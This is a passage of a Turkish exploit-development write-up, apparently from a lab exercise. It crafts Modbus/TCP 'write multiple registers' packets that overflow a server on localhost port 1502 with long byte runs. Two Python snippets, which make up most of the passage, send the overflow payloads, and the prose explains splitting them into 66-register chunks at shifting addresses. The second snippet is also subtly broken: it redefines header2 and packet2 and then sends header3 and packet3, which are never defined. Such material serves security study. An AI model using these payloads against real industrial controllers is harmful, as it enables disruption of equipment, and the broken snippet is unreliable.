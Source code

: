 ```python
import socket

HOST = '127.0.0.1'
PORT = 1502

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

header = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\x6b\x02\x58"

packet = "\x41"*600

m = header+packet

s.send(m)
```

Bu paketi çalıştırıp bakınca önümüze gelen tabloya bakalım:

![Screenshot](./screenshots/3.png)

![Screenshot](./screenshots/4.png)

Burda açıkça görülüyorki yukarda ki printf kod parçasından receivce edilen kısım bastırılıyordu ve elimizde sadece 66 tane A harfi var. Bu bizim için sıkıntı değil, çünkü istediğimiz kadar açığı tetikleyebiliriz. O yüzden 66şar paketler şeklinde gönderelim. Tek değişecek olan şey *address* değeri.


```python
header1 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\x6b\x00\x42" # address = 0x006b, nb = 0x0042
packet1 = "\x41"*66*2 # --> bir nb için 2 byte

header2 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\xad\x00\x42" # address = 0x00ad(6b+42), nb = 0x0042
packet2 = "\x42"*66*2

header2 = "\x00\x08\x00\x00\x00\x06\xff\x10\x00\xef\x00\x42" # address = 0x00ef(ad+42), nb = 0x0042
packet2 = "\x43"*66*2

s.send(header1 + packet1)
s.send(header2 + packet2)
s.send(header3 + packet3)
```
